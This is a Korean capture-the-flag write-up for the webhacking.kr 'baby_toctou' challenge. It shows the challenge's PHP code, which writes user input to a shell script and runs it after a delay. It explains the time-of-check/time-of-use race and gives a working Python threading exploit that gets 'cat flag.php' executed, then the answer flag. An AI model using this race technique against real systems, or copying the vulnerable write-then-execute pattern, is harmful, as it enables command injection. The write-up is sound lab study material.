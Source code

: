 ### [소스코드]

```html
WebShell [Version 1.0.00000.001]

WebShell:/ $ 
```

<br>

### [소스코드 분석]
1. `Webshell:/$`뒤에 `cat api.php`입력
```html
WebShell [Version 1.0.00000.001]

WebShell:/ $ cat api.php
<?php
  // system($_GET['q']);
  if(!preg_match('/^[a-f0-9]+$/',$_COOKIE['baby_toctou'])){ $newCookie = uniqid().rand(1,999999999); setcookie("baby_toctou",$newCookie); $_COOKIE['baby_toctou'] = $newCookie; }
  $cmd = $_GET['q'];
  $myfile = fopen("user/{$_COOKIE['baby_toctou']}.sh", "w") or die("Unable to open file!");
  fwrite($myfile, $cmd);
  fclose($myfile);
  if(($cmd === "ls") || ($cmd === "cat api.php") || ($cmd === "cat index.php")){ // valid check
    sleep(1); // my server is small and weak
    system("sh ./user/{$_COOKIE['baby_toctou']}.sh");
  }
  else{
    echo <<<HELP
only "ls", "cat api.php", "cat index.php" allowed
HELP;
  }
?>
```
2. 위의 코드에서 `sleep(1);`때문에 Race Condition에 취약점이 발생
3. 파이썬 스크립트를 작성하여 Race Condition 취약점을 트리거 할 수 있음
    * 실행시킬때 오류가 발생하는 경우(VScode), 파이썬 requests모듈을 설치해야함
    * 설치방법 : 터미널 `pip install requests`
```py
import requests
import threading
 
url = "http://webhacking.kr:10019/api.php"
found_flag = False
 
headers = {
    "Cookie": "baby_toctou=645a7c1eda9d3388502911"
}
 
def send_request_1():
    params = {"q": "cat flag.php"}
    requests.get(url, headers=headers, params=params)
 
def send_request_2():
    global found_flag
    params = {"q": "ls"}
    res = requests.get(url, headers=headers, params=params)
    if "FLAG{" in res.text:
        found_flag = True
        print(res.text)
 
def exploit_race_condition():
    thread1 = threading.Thread(target=send_request_1)
    thread2 = threading.Thread(target=send_request_2)
 
    thread1.start()
    thread2.start()
 
    thread1.join()
    thread2.join()
 
if __name__ == "__main__":
    for i in range(10):
        if found_flag:
            break
        exploit_race_condition()
```
4. 스크립트를 실행시키면 FLAG값이 나옴
`<?php
  $flag = "FLAG{Mama_i_know_how_toctou_works}";
?>
`

<br>

* 정답 : FLAG{Mama_i_know_how_toctou_works}


  
  
  
